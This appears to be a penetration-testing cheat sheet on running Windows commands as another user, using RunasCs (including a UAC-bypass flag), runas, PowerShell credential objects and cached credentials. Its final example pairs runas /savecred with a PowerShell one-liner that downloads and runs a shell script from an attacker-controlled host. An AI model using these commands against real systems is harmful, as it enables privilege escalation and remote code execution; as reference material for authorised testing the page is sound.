 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["Powershell", "Credential Object", "Windows", "Runas"]
---
```


### RunasCS

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -l <LOGON_TYPE>
```

```console
# Or
.\RunasCs.exe '<USER>' '<PASSWORD>' --bypass-uac "<CMD>" -l <LOGON_TYPE>
```

<br>

```
LOGON TYPE
---------------------
2  Interactive
3  Network
4  Batch
5  Service
7  Unlock
8  NetworkCleartext
9  NewCredentials
10 RemoteInteractive
11 CachedInteractive
```

<small>*Ref: [RunasCS](https://github.com/antonioCoco/RunasCs)*</small>

### Runas (With Password)

```console
runas /user:'<USER>' "<CMD>"
```

```console {class="sample-code"}
runas /user:'admin' "powershell"
```

### Runas (With Cred Object)

#### 1. Create Credential Object

{{< tab set1 tab1 >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

#### 2. Run Command

{{< tab set2 tab1 >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Set Computer to 'localhost' if Running Locally
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME>
```

```console {class="sample-code"}
Invoke-Command -ScriptBlock { powershell } -Credential $cred -Computer localhost
```

```console
# If Error, Try
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -auth credssp
```

```console
# Invoke Command with Config
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -ConfigurationName <CONFIG_NAME>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Set Computer to '.' if Running Locally
new-pssession -computername <COMPUTER_NAME> -credential $cred
```

```console {class="sample-code"}
new-pssession -computername . -credential $cred
```

```console
# Switch to New Session
enter-pssession <SESSION_ID>
```

{{< /tabcontent >}}

### Runas (With Cached Creds)

#### 1. Check Cached Creds

```console
cmdkey /list
```

#### 2. Run Command

```console
runas /user:<DOMAIN>\<USER> /savecred "<CMD>"
```

```console {class="sample-code"}
# e.g. Upload and Run a Shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
